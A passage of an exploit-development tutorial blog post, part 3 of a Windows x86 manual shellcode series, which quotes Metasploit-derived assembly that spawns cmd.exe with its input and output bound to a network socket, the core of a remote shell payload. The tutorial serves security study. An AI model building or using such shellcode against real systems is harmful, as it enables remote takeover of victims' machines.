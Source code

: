 ```yaml
---
layout: post
title: Windows x86 Manual Shellcode - Part 3
categories: [re,exploit]
tags: [osce]
fullview: false
comments: true
---
```

Continuation of [part 1](https://marcosvalle.github.io/re/exploit/2018/10/20/windows-manual-shellcode-part1.html) and [part 2](https://marcosvalle.github.io/re/exploit/2018/10/21/windows-manual-shellcode-part2.html) of the Windows x86 Manual Shellcode.

In this part we will continue this development by redirecting a shell to to the established connection.

## Call CreateProcessA
We already have the address of the `CreateProcessA` function we got with `arwin.exe`. Its kind of obvious what this function does, but lets check the [documentation](https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createprocessa) just in case:

> Creates a new process and its primary thread. The new process runs in the security context of the calling process.

And the syntax:

~~~
BOOL CreateProcessA(
  LPCSTR                lpApplicationName,
  LPSTR                 lpCommandLine,
  LPSECURITY_ATTRIBUTES lpProcessAttributes,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  BOOL                  bInheritHandles,
  DWORD                 dwCreationFlags,
  LPVOID                lpEnvironment,
  LPCSTR                lpCurrentDirectory,
  LPSTARTUPINFOA        lpStartupInfo,
  LPPROCESS_INFORMATION lpProcessInformation
);
~~~

This time, instead of trying to figure out each and every field of this structure, lets see if we can adapt [Metasploit's block_shell](https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x86/src/block/block_shell.asm) code:

~~~
.shell:
	mov ebx, 0x646D6390    ; push our command line: 'cmd',0 padded with \x90
	shr ebx, 8
	push ebx
	mov ebx, esp           ; save a pointer to the command line
	push edi               ; our socket becomes the shells hStdError
	push edi               ; our socket becomes the shells hStdOutput
	push edi               ; our socket becomes the shells hStdInput
	xor esi, esi           ; Clear ESI for all the NULL's we need to push
	push byte 0x12         ; We want to place (18 * 4) = 72 null bytes onto the stack
	pop ecx                ; Set ECX for the loop

push_loop:
	push esi               ; push a null dword
	loop push_loop         ; keep looping untill we have pushed enough nulls
	mov word [esp + 0x3C], 0x0101 ; Set the STARTUPINFO Structure's dwFlags to STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW
	mov byte [esp + 0x10], 0x44
	lea eax, [esp + 0x10]  ; Set EAX as a pointer to our STARTUPINFO Structure
~~~